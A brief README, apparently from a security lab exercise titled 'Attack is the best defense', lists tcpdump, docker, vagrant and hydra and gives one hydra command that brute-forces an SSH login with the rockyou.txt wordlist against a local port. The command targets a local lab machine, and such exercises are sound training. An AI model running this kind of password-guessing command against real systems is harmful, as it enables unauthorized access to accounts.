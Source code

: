 # Attack is the best defense
## I made use of tcpdump, docker, vagrant & hydra
## I used the following command 
## [```sudo hydra -l sylvain -P /vagrant/rockyou.txt ssh://127.0.0.1:2222 -t 4```]
